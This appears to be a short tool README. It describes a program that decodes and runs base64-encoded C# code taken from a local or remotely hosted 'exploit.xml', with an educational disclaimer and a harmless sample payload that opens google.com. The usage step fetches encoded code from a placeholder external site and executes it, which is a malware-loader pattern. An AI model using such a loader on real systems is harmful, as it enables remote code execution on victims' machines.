Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Example usage
==============
1. just run it with exploit.xml in the directory of the exe
2. or run it by passing the location of the file with how many iteration the code has been base64 encoded example dynamiccode.exe "https://yourexternalsite/yourBase64DataExploit.xml

It is important that the XML have the correct usings and correct version of the .net framework.

The contents of the exploit.xml file has a single iteration of base64 of the following basic code.

namespace BadMojo{

public class BiteMe{

public static void Main(string[] args)

{DoWork();}

public BiteMe(){}

public static void DoWork()

{System.Diagnostics.Process.Start("https://www.google.com");}}}

